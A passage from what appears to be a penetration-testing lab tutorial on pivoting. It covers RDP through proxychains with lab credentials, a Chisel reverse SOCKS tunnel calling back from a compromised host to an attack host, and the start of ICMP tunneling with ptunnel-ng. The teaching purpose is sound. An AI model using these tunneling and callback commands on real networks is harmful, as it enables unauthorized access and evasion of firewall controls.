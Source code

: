 #### Pivoting to the Internal Host
```shell-session
$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

### Chisel Reverse Pivot

In some cases the firewall rules might restrict inbound connections to the compromised target. In such cases we can use Chisel with the reverse option.

The server will listen and accept connections, and they will be proxied through the client, which specified the remote.

#### Starting the Chisel Server on our Attack Host
```shell-session
$ sudo ./chisel server --reverse -v -p 1234 --socks5
```

#### Connecting the Chisel Client to our Attack Host
```shell-session
ubuntu@WEB01$ ./chisel client -v 10.10.14.17:1234 R:socks

2022/05/30 14:19:29 client: Connecting to ws://10.10.14.17:1234
2022/05/30 14:19:29 client: Handshaking...
2022/05/30 14:19:30 client: Sending config
2022/05/30 14:19:30 client: Connected (Latency 117.204196ms)
2022/05/30 14:19:30 client: tun: SSH connected
```

#### Editing & Confirming proxychains.conf
```shell-session
$ tail -f /etc/proxychains.conf 

[ProxyList]
# add proxy here ...
# socks4    127.0.0.1 9050
socks5 127.0.0.1 1080 
```

#### Connecting with RDP
```shell-session
$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

**Note:** If you are getting an error message with chisel on the target, try with a different version.

## ICMP Tunneling with SOCKS

ICMP tunneling encapsulates your traffic within ICMP packets containing echo requests and responses, it will only work when ping responses are permitted within a firewalled network.

We will use the [ptunnel-ng](https://github.com/utoni/ptunnel-ng) tool to create a tunnel between our Ubuntu server and our attack host. We will then be able to proxy our traffic through the ptunnel-ng client.


[inf]: Starting new session to 10.129.202.64:22 with ID 20199
[inf]: Received session close from remote peer.
[inf]: I/O:   0.00/  0.00 mb ICMP I/O/R:      248/      22/       0 Loss:  0.0%